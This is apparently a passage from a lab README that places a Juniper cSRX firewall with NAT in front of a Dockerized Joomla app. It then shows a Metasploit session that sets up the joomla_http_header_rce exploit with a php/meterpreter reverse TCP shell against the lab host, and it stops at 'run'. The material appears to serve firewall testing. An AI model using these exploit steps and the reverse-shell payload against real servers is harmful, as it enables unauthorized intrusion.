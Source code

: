 1. Set up NAT on cSRX

    ```bash
    Load configuration (cSRX1.conf) to cSRX.
    Please note address of interface ge-0/0/0.0 is address of csrxnat on example-voting-app_front-tier.

    Then route traffic from joomla all to csrxnat.
    # docker exec -it example-voting-app_joomla_1 ip route delete default
    # docker exec -it example-voting-app_joomla_1 ip route add default via 192.168.100.2

    Then user should be able to see joomla page on server:5002.
    If user is not able to see joomla page, please see Troubleshooting part Question 3.
    ```

1. After Implementation

    ```bash
    root@ubuntu:~# docker run --network attacker -p 4000:4000 -it metasploit /bin/bash
    docker: Error response from daemon: network attacker not found.
    root@ubuntu:~# docker network create attacker
    13002766d7d00011ec4b70fa1ab6aba427cbc1a417593acaaa9a389fc5c1b7fa
    root@ubuntu:~# docker run --network attacker -p 4000:4000 -it metasploit /bin/bash
    root@f84da2bbbf10:/# service postgresql start
    [ ok ] Starting PostgreSQL 11 database server: main.
    root@f84da2bbbf10:/# msfconsole -q
    msf > ip a
    [*] exec: ip a

    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
        valid_lft forever preferred_lft forever
    35: eth0@if36: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
        link/ether 02:42:ac:14:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
        inet 172.20.0.2/16 brd 172.20.255.255 scope global eth0
        valid_lft forever preferred_lft forever
    msf > use exploit/multi/http/joomla_http_header_rce
    msf exploit(multi/http/joomla_http_header_rce) > set RHOST 172.20.0.1
    RHOST => 172.20.0.1
    msf exploit(multi/http/joomla_http_header_rce) > set RPORT 5002
    RPORT => 5002
    msf exploit(multi/http/joomla_http_header_rce) > set LHOST 172.27.60.147
    LHOST => 172.27.60.147
    msf exploit(multi/http/joomla_http_header_rce) > set LPORT 4000
    LPORT => 4000
    msf exploit(multi/http/joomla_http_header_rce) > set PAYLOAD php/meterpreter/reverse_tcp
    PAYLOAD => php/meterpreter/reverse_tcp
    msf exploit(multi/http/joomla_http_header_rce) > run
